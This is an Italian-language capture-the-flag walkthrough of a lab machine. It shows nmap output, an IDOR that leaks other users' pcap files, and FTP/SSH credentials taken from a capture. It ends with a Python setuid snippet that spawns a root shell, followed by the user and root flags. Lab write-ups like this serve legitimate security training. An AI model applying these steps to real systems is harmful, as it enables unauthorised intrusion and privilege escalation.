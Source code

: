 # Intro
ip macchina: 10.10.10.245

<br>

# Scan con nmap

> Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-19 11:44 CET  
> Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan  
> SYN Stealth Scan Timing: About 12.20% done; ETC: 11:44 (0:00:14 remaining)  
> Nmap scan report for 10.10.10.245  
> Host is up (0.44s latency).  
> Not shown: 997 closed tcp ports (reset)  
> PORT   STATE SERVICE VERSION    
> 21/tcp open  ftp     vsftpd 3.0.3   
> 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
> | ssh-hostkey:    
> |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)    
> |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)  
> |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)  
> 80/tcp open  http    Gunicorn  
> |_http-server-header: gunicorn    
> |_http-title: Security Dashboard  
> Device type: general purpose  
> Running: Linux 4.X|5.X  
> OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5  
> OS details: Linux 4.15 - 5.19  
> Network Distance: 2 hops  

- noto aperta una porta 80 -> provo ad accedere tramite burp e chrome
- noto inoltre FTP aperto -> provo ad accedere come anonimo

<br>

# FTP exploit
Provo a connettermi in ftp con account anonymous ma non funziona in quanto hanno impostato una password


# Overview Sito Web
Sembra una semplice dashboard di sicurezza ad occhio, nella quale:
- vengono mostrati valori come il numero di tentativi di login, gli scan delle porte ecc con dei grafici # sembra inutile
- Si possono fare scan di sicurezza (intercettazioni) per poi scaricare i pcap.
- SOno presenti schede del sito che eseguono comandi sul terminale e ne stampano l'output da quel che sembra

- Azioni da provare ad eseguire:
    1. analizzare il pcap con wireshark -> non sembra nulla di interessasnte
    2. intercettare con burp e vedere se si può ottenere RCE -> non sembra la strada

- Analisi URL:
    - avviando la scan si nota che la pagina ti redirecta verso la scheda /data/IdScan
        - provando a inserire altri id ottengo scan di altri utenti. Scarico e analizzo la scan 0 con wireshark


# Analisi Wireshark del pacchetto 0.pcap

Noto nel file che ci sono dei pacchetti FTP -> potrebbero contenere password in chiaro: BINGO
user : nathan
pass: Buck3tH4TF0RM3!

mi connetto in ftp e scarico tutti i file nella home di nathan, tra cui la **user flag**

tra gli altri file trovo results.txt, che contiene il risultato di una scan linpeas

# SSH
la pass di nathan funziona anche in ssh ->  mi connetto alla macchina in ssh

eseguo linpeas.sh per verificare se ci sono modi per fare priviledge escalation (o alternativamente stampo results.txt)

noto che python 3.8 è vulnerabile a privesc

# priviledge escalation

apro python3 ed eseguo i seguenti comandi

> import os
> import pty
> 
> os.setuid(0)
> os.system("whoami")
> 
> // verifico quindi che sono root
> 
> pty.spawn("/bin/sh")

ottengo quindi una shell da root e stampo la flag in /root/root.txt


# user flag

9ebbf5d7436dd6f9d5242f6a4cc39461


# root flag 
19891665fc871f8d3e07b9f13d2e4819